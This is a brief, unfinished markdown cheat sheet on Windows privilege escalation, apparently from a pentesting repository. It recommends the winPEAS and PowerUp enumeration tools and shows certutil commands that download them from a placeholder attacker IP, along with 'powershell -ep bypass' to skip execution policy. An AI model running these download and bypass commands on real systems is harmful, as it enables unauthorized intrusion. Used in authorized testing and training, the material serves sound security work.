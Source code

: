 # Common PrivEsc Methods

Here are some things I do for windows privesc.

## Identifying Privesc Vector

First, (after some basic one-liners) I like installing a `PowerUP` *AND* `winPEAS`. Using these tools will help us find the attack vector `80%` of the time.

### One-Liners

These one-liners will catch a good amount of privesc vectors:

- `whoami /priv` == See your users privs.
- 

### winPEAS

winPEAS is great to find some loot and privesc. Make sure to read fine print.

```cmd
certutil -urlcache -split -f http://<attacker-ip>/winPEAS.exe winPEAS.exe
```

### PowerUP

PowerUp has some awesome utility. Check their official documentation for more info. To run all checks do the following:

```cmd
$ certutil -urlcache -split -f http://<attacker-ip>/PowerUp.ps1 PowerUp.ps1
$ powershell -ep bypass
$ .\PowerUp.ps1; Invoke-AllChecks
```

## Obtaining Root
